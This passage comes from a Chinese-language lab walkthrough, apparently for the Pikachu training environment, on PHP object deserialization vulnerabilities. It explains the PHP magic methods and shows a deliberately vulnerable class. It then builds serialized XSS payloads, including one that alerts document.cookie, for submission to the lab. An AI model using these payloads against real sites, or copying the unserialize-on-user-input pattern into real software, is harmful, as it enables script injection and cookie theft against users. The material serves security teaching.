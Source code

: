 ```php
        7:变量值的长度
        pikachu:变量值
    */
```

-   反序列化

```php
 $u=unserialize("O:1:"S":1:{s:4:"test";s:7:"pikachu";}");
```

最终会得到原始对象 `S`;

-   反序列化漏洞

序列化和反序列化本身没有问题,但是如果反序列化的内容是用户可以控制的,且后台不正当的使用了 php 中的魔法函数,就会导致安全问题:

>    -   `__construct()`: 当一个对象创建时被调用;
>    -   `__destruct()`: 当一个对象销毁时被调用;
>    -   `__toString()`: 当一个对象被当作一个字符串使用;
>    -   `__sleep()`: 在对象在被序列化之前运行;
>    -   `__wakeup`: 将在序列化之后立即被调用;

```php
class S{
    var $test = "pikachu";
    function __destruct(){
        echo $this->test;
    }
}
$s = $_GET['test'];
@$unser = unserialize($a);

//payload:O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}
```

#### api 注入

点一下提示, 输入这个提示的字符串:

用这个工具来在线的执行结果: [PHP 在线工具](https://www.jyshare.com/compile/1/)

```php
<?php
class S{
	var $test="<script>alert(document.cookie)</script>";
}
 
$a=new S();
echo serialize($a)
?>
```

结果: `O:1:"S":1:{s:4:"test";s:39:"<script>alert(document.cookie)</script>";}`

输入这个结果试试:
